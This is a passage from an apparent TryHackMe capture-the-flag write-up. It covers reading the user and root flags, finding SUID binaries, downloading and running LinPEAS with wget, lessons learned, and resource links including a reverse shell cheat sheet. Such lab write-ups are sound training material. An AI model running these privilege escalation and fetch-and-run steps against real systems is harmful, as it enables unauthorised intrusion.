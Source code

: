    ```bash
   whoami
   ```
   - Output: `root`.
5. Find flags:

   ```bash
   cat /home/jan/user.txt
   cat /root/root.txt
   ```

**Alternative Privesc**:

- Check for SUID binaries:

  ```bash
  find / -perm -u=s -type f 2>/dev/null
  ```
- Use tools like LinPEAS for automated checks:

  ```bash
  wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
  chmod +x linpeas.sh
  ./linpeas.sh
  ```

**Tip**: Always check `sudo -l` first for low-hanging privesc. GTFOBins (https://gtfobins.github.io/) lists exploits for commands like `find`.

## Step 5: Submitting Flags

- Copy the `user.txt` and `root.txt` contents (format: `THM{...}`).
- Submit in TryHackMe’s task interface for each question.
- **Note**: Exact flags are not shared here to avoid spoilers.

## Lessons Learned

- **Recon**: Nmap is critical for identifying attack surfaces.
- **Enumeration**: Check all services (web, FTP, SMB) thoroughly for credentials or misconfigurations.
- **Exploitation**: Weak credentials and anonymous access are common in beginner CTFs.
- **Privilege Escalation**: `sudo` misconfigurations are a frequent privesc vector.
- **Tools Used**: Nmap, Gobuster, smbclient, ftp, Hydra, Netcat, SSH.

## Challenges Faced

- **Slow Scans**: Use smaller wordlists (`common.txt`) or specific Nmap flags (`-T4`) for speed.
- **Permission Denied**: Ensure you’re in the correct directory or have escalated privileges.
- **Shell Issues**: Verify listener IP/port and VPN connectivity.

## Resources

- Nmap Cheat Sheet: https://www.stationx.net/nmap-cheat-sheet/
- Gobuster Guide: https://www.kali.org/tools/gobuster/
- Hydra Guide: https://www.kali.org/tools/hydra/
- GTFOBins: https://gtfobins.github.io/
- Reverse Shell Cheat Sheet: https://highon.coffee/blog/reverse-shell-cheat-sheet/
- TryHackMe Community: https://discord.gg/tryhackme
